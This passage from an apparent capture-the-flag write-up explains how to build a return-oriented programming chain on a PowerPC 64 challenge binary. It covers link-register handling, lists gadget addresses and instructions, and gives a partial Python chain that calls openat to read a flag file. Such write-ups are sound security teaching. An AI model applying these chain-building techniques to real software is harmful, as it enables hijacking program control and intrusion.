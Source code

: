 From here, we have full control over the instruction pointer and we can comfortably place our chain on rovers. To find useful gadgets, I used the tool [ROPgadget](https://github.com/JonathanSalwan/ROPgadget).

The PowerPC 64 instructions are similar to x86-64 with a minor difference: the returning address isn't automatically popped from the stack after executing a return and if we don't change the value of the link register, the binary will just loop on return.
As shown in the screenshot above, before a `blr` (equivalent to `ret`), we need to execute an `mtlr` instruction to move the value from a register to the link register, which maintains the location to jump when returning from a function. Alternatively we can use the unconditional branch call (`bctrl`) which will return as a usual function call.

Fundamentally, the challenge lies in finding the appropriate gadgets to construct the primitive for calling a function (or other gadgets) and returning to the correct location. The entire chain relies mainly on these two gadgets:

```python
set_r31 = 0x0000000010022144 # addi r1, r1, 0x40 ; ld r0, 0x10(r1) ; ld r31, -8(r1) ; mtlr r0 ; blr
call_r12 = 0x0000000010022134  # ld r12, 0x18(r31) ; mtctr r12 ; bctrl ; ld r2, 0x18(r1) ; addi r1, r1, 0x40 ; ld r0, 0x10(r1) ; ld r31, -8(r1) ; mtlr r0 ; blr
```

We need to maintain the *r1* register at a controllable value. This will serve as the script to follow, similar to the stack in a classic ROP scenario.

The gadget `set_r31` allows us to set an arbitrary value to register *r31*. If we want to call a function, we simply place the address of the memory containing the pointer to the desired function in *r31* and return to the `call_r12` gadget.

Example:

```python
rover = lambda x: 0x10110216 + (x * 0x20e)

[...]
p64(set_r31), 
p64(openat), # function to call
p64(0x0) * 3, # padding
p64(rover(1) + 2 - 0x10), # value popped into r31. r31 = &openat pointer
p64(0x0) * 2, # padding
p64(call_r12), # r12 = *r31 = openat 
[...]
```

This gadget will dereference the address stored in *r31* and move the pointer to register *r12*. Then, the instructions `mtctr r12; bctrl` will move this value to the link register, and after executing that function, the program will resume execution of the `call_r12` gadget after `bctrl` instruction.

As mentioned earlier, considering all rovers, we have sufficient space to store our ROP chain and the string */home/user/flag*. We can use the `planet_name` buffer and the `rover_name` buffer of each rover for this purpose. We only need to ensure that we jump to the next rover after we've filled the memory of the previous one. For this purpose, I used the following gadgets:

```python
move_little_stack = 0x0000000010057C50  # addi r1, r1, 0x20 ; ld r0, 0x10(r1) ; mtlr r0 ; blr
move_medium_stack = 0x00000000100BB778  # addi r1, r1, 0x40 ; mr r3, r31 ; ld r30, -0x10(r1) ; ld r31, -8(r1) ; mtlr r0 ; blr
move_medium_stack_2 = 0x00000000100A9210  # addi r1, r1, 0x50 ; mr r3, r9 ; ld r0, 0x10(r1) ; mtlr r0 ; blr
```
